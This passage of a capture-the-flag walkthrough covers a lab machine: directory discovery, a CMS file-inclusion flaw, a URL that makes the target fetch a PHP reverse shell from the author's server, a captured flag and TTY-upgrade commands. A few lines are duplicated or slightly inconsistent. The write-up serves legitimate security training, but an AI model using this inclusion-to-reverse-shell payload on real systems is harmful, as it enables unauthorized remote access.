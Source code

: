 After waiting for a while, it returns the directory "administrator".

![10]

After waiting for a while, it returned the administrator directory. In this new path, we found another login panel. I tried all possible combinations of names and users, default credentials, brute force, etc. I couldn't enter the CMS panel, but as a last resort, I searched for the name on Google and found a recognized vulnerability that allows Local File Inclusion.

[Vulnerability](https://www.exploit-db.com/exploits/25971)

According to the txt, there is a vulnerable path from which we can view files on the machine and even make requests. Knowing this, what occurs to me is to upload a Python reverse shell using an HTTP server that, when called, connects to my machine through a nc listener.

```
http://10.10.63.156/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.14.49.189:8000/ReversePHPShell
```

[Reverse PHP Shell](https://github.com/xdayeh/Php-Reverse-Shell/blob/master/PHP-Reverse-Shell.php)

![11]
We are able to take the flag from /home/milesdyson/user.txt
```
$ cat user.txt
7ce5c2109a40f958099283600a9ae807
```

## Privilege escalation

Before we continue, let's configure the tty to make it more interactive

```
script /dev/null -c bash

CTRL + Z

stty raw -echo; fg

reset xterm

export TERM=xterm

export SHELL=bash

stty size

X X

stty rows X colums Xstty rows X colums X
```

At this point, we are going to do a manual enumeration, Let's start with what is most important to me: first SUID permissions, then SUDO permissions, Path Hijacking..

